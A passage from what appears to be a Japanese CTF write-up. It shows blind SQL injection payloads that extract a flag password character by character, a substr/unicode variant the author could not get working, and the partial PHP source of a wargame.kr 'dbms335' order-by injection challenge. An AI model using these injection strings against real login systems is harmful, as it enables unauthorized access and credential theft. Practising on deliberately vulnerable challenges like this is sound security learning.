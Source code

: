 ```txt
admin' and pass like 'flag_kpwa4ji3uzk6trpk&%' -- -
flag_kpwa4ji3uzk6trpk#
admin' and pass like 'flag_kpwa4ji3uzk6trpk#%' -- -
result: flag_kpwa4ji3uzk6trpk
```
あと、以下のように`unicode`(mysqlでのascii)を使うとなんかうまく行かなかった…なんでだ？？？  
```txt
admin' and unicode(substr(pass,1,1))=100 -- -
admin' and unicode(substr(pass,1,1))=101 -- -
admin' and unicode(substr(pass,1,1))=102 -- -
admin' and unicode(substr(pass,1,1))=103 -- -
admin' and unicode(substr(pass,1,1))=104 -- -
```
## wargame.kr
### inject into order by / blind Injection (dbms335)
https://taiyakon.com/2017/09/ctfwargamekr-19-dbms335writeup.html  
- **entrypoint**  
```php
<?php
if (isset($_GET['view-source'])) {
    show_source(__FILE__);
    exit();
}
include("./inc.php");
include("../lib.php");
//usleep(200000*rand(2,3));
if(isset($_POST['sort'])){
 $sort=$_POST['sort'];
}else{
 $sort="asc";
}
?><!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"> 
<html>
 <head>
  <style type="text/css">
   body {background-color:#eaeafe;}
   #title {text-align:center; font-size:22pt; border:1px solid #cacaca;}
   #reg:hover {color:#557; cursor:pointer;}
   #contents {text-align:center; width:550px; margin: 30px auto;}
   #admin_tbl {width:100%;}
   #admin_tbl thead tr td {border-bottom:1px solid #888; font-weight:bold;}
   #admin_tbl tbody tr td {border-bottom:1px solid #aaa;}
   #admin_tbl #reg {width:200px;}
  </style>
  <script type="text/javascript" src="./jquery.min.js"></script>
  <script type="text/javascript" src="./jquery.color-RGBa-patch.js"></script>
  <script type="text/javascript"> var sort="<?php echo $sort; ?>"; </script>
  <script type="text/javascript" src="./main.js"></script>
 </head>
 <body>
  <div id="title"> Lonely guys Management page </div>
  <div id="contents">
   <table id="admin_tbl">
    <thead>
     <tr><td>the list of guys that need a girlfriend.</td><td id="reg">reg_single <sub>(sort)</sub></td></tr>
    </thead>
    <tbody>
     <?php
      mysql_query("update authkey set authkey='".auth_code('lonely guys')."'");
      $sort = mysql_real_escape_string($sort);
```
